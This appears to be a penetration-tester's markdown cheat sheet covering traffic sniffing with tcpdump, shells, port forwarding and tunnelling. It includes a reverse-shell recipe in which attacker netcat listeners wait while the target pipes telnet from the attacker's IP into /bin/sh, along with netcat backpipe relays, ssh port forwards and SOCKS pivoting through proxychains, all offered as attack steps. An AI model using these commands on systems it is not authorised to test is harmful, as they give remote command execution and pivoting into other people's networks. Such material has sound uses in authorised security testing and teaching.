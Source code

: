 
# Is packet sniffing possible? What can be seen? Listen to live traffic
###  tcpdump tcp dst [ip] [port] and tcp dst [ip] [port]
- `tcpdump tcp dst 192.168.1.7 80 and tcp dst 10.2.2.222 21`

---

# Have you got a shell? Can you interact with the system?
### http://lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/
- `nc -lvp 4444`    # Attacker. Input (Commands)
- `nc -lvp 4445`    # Attacker. Ouput (Results)
- `telnet [atackers ip] 44444 | /bin/sh | [local ip] 44445`    # On the targets system. Use the attackers IP!

---

# fpipe
### FPipe.exe -l [local port] -r [remote port] -s [local port] [local IP]
- `FPipe.exe -l 80 -r 80 -s 80 192.168.1.7`

---

# ssh -[L/R] [local port]:[remote ip]:[remote port] [local user]@[local ip]
- `ssh -L 8080:127.0.0.1:80 root@192.168.1.7`    # Local Port
- `ssh -R 8080:127.0.0.1:80 root@192.168.1.7`    # Remote Port

---

# mknod backpipe p ; nc -l -p [remote port] < backpipe  | nc [local IP] [local port] >backpipe
- `mknod backpipe p ; nc -l -p 8080 < backpipe | nc 10.1.1.251 80 >backpipe`    # Port Relay
- `mknod backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc localhost 80 | tee -a outflow 1>backpipe`    # Proxy (Port 80 to 8080)
- `mknod backpipe p ; nc -l -p 8080 0 & < backpipe | tee -a inflow | nc localhost 80 | tee -a outflow & 1>backpipe`    # Proxy monitor (Port 80 to 8080)

---

# Is tunnelling possible? Send commands locally, remotely
- `ssh -D 127.0.0.1:9050 -N [username]@[ip]`
- `proxychains ifconfig`

---